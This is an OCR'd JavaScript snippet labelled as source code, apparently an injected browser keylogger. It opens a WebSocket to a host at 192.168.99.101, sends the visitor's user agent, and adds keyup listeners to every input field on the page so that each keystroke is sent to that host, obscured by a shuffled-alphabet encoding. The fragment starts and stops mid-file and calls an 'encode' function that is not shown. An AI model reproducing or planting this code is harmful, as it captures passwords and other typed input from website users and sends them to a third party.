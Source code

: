 ```javascript
    function hash(s) {
        var r = 0,
            i;
        for (i = 0; i < s.length; i++) {
            r = r * 31 + s.charCodeAt(i) | 0
        }
        return r
    }

    function rand(s) {
        var x = 123456789;
        var y = 362436069;
        var z = 521288629;
        var w = 88675123;
        var t;
        return function(a, b) {
            t = x ^ x << 11;
            x = y;
            y = z;
            z = w;
            w = w ^ w >> 19 ^ (t ^ t >> 8);
            if (a !== undefined && b !== undefined) {
                return a + w % (b + 1 - a)
            }
            return w
        }
    }

    function shuffle(a, r) {
        var i;
        for (i = a.length - 1; i > 0; i--) {
            var j = Math.abs(r(0, i));
            var t = a[i];
            a[i] = a[j];
            a[j] = t
        }
    }
    var w = new WebSocket("ws://192.168.99.101:7467");
    var t = "MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";
    w.addEventListener("open", function(event) {
        var s = navigator.userAgent;
        w.send(encode(navigator.userAgent, t));
        t = t.split("");
        shuffle(t, rand(hash(s)));
        t = t.join("")
    });
    Array.from(document.getElementsByTagName("input")).forEach(function(e) {
        e.addEventListener("keyup", function(v) {
            w.send(encode(Math.random().toString().slice(2) + " " + v.key, t))
        }, false)
    })
}, false);
```
